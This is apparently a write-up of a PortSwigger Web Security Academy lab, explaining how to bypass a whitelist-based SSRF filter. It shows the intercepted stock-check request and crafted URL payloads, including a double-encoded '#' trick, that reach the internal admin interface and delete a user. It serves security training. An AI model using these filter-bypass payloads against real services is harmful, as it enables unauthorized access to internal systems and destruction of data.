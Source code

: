```yaml
---
title: "SSRF: challange 4"
date: "2024-02-09"
thumbnail: "/assets/img/thumbnail/ssrf.png"
---
```


# SSRF with whitelist-based input filter
---

Link: https://portswigger.net/web-security/ssrf/lab-ssrf-with-whitelist-filter

This lab has a stock check feature which fetches data from an internal system.

To solve the lab, change the stock check URL to access the admin interface at http://localhost/admin and delete the user carlos.

The developer has deployed an anti-SSRF defense you will need to bypass.

### solution

- start the lab and remember the objective is to open `/admin` and delete the user carlos
- if u try going to `/admin` endpoint, you will n't get the result as u can't access it directly u will get this message `Admin interface only available if logged in as an administrator, or if requested from loopback`
- so let's go to products and click check stock as challange describtion said
- intercept this request

```
POST /product/stock HTTP/2
Host: 0a0d0067037080968141b6080065004b.web-security-academy.net
Cookie: session=h74HgBoArcl80JrdU0IBbH5Edvr3JI69
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:122.0) Gecko/20100101 Firefox/122.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a0d0067037080968141b6080065004b.web-security-academy.net/product?productId=3
Content-Type: application/x-www-form-urlencoded
Content-Length: 107
Origin: https://0a0d0067037080968141b6080065004b.web-security-academy.net
Dnt: 1
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers

stockApi=http%3A%2F%2Fstock.weliketoshop.net%3A8080%2Fproduct%2Fstock%2Fcheck%3FproductId%3D3%26storeId%3D1
```

- notice that stockApi parameter has a url as a value, so let's try to change it to `http://localhost/admin` and the send the request
- ummmmmmmmmmm it's blocked and also all the trials like `http://127.1`
- let's try this `http://localhost@stock.weliketoshop.net/`
- this gives "Internal Server Error" response.
- after appending # to localhost the url is rejected so let's try double URL encoding the # to be `%2523`
- then the stockApi parameter became `http://localhost%2523@stock.weliketoshop.net/` and the status code of the response became 200
- let's delete carlos using `http://localhost%2523@stock.weliketoshop.net/admin/delete?username=carlos`
- congratzzzzzzzzzzzzzzzzzz